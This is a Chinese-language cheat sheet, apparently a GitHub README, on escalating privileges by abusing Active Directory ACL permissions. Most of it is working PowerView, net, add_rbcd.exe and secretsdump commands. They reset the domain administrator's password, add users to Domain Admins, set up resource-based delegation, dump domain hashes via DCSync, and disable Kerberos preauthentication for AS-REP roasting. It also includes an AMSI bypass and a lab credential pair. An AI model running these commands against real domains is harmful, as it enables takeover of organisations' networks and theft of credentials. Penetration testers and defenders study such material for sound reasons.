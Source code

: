 # ACL滥用

## User-Force-Change-Password扩展权限

拥有该扩展权限，可在不知道目标用户密码的情况下强制修改目标的密码。

```shell
Import-Module .\powerview.ps1
#添加用户hack对域管理员administrator 重置密码的权限
Add-DomainObjectAcl -TargetIdentity administrator -PrincipalIdentity hack -Rights ResetPassword -Verbose

#修改密码
admod -users -rb cn=administrator unicodepwd::feng123! -optenc
#该权限不支持拿net命令修改密码

#或者
$cred = ConvertTo-SecureString "feng123!" -AsPlainText -force
Set-DomainUserPassword -identity hack -accountpassword $cred
```



## member权限属性

拥有该属性的权限，可以将任意用户、组或机器加入到目标安全组中。

比如拥有了Domain Admins组的member属性的完全控制权，就可以往Domain Admins组里添加用户

```shell
net group "domain admins" hack /add /domain
```





## msDS-AllowedToActOnBehalfOfOtherIdentity

拥有该属性的权限，可以修改目标对象基于资源的约束性委派RBCD，进行攻击获取目标的权限

```shell
Import-Module .\powerview.ps1
#添加用户hack对域控的msDS-AllowedToActOnBehalfOfOtherIdentity属性修改权限
Add-DomainObjectAcl -TargetIdentity "CN=DC,OU=Domain Controllers,DC=xie,DC=com" -PrincipalIdentity hack -RightsGUID 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79 -Verbose

#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root
```

然后进行一次基于资源的约束性委派攻击：

![image-20230921110028201](README.assets/image-20230921110028201.png)



## DCSync

```shell
python3.10 secretsdump.py  'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' -just-dc
```



## GenericAll权限

### 1.应用于用户



修改目标密码

```powershell
net user administrator feng123! /domain
```

### 2.应用于机器

进行基于资源的约束性委派攻击

```powershell
#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root
```

![image-20230921111021174](README.assets/image-20230921111021174.png)

### 3.应用于组

给组添加用户

```shell
net group "domain admins" hack /add /domain
```

### 4.应用于域

hack拥有对域对象xie.com的GenericAll权限。

给hack Sync权限：

![image-20230921111426803](README.assets/image-20230921111426803.png)

## GenericWrite权限

类似于GenericAll权限，但是不能赋予User-Force-Change-Password和DCSync权限。

对于用户，可以修改其doesnotrequirepreauth属性的值来不需要 Kerberos 预身份验证，然后进行AS-REP Roasting攻击。

```shell
#evil-winrm必须先加载Bypass-4MSI才能powerview
menu
Bypass-4MSI
Import-Module .\powerview.ps1
Get-ADUser jorden | Set-ADAccountControl -doesnotrequirepreauth $true

```





## WriteDACL权限

可以修改目标对象的DACL。拥有这个权限可以往指定安全对象写入任何的ACE，从而完全控制安全对象。

例如hack拥有对xie.com的WriteDACL权限，通过powerview脚本给hack添加对域xie.com的DCSync权限。

##### 

## WriteOwner权限

可以修改目标对象的Owner属性。该权限可以修改指定安全对象的Owner属性为任意用户，而Owner默认拥有WriteDACL等权限，因此直接利用。

```shell
powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose

$cred = ConvertTo-SecureString "fengfeng123!@#" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```





### 
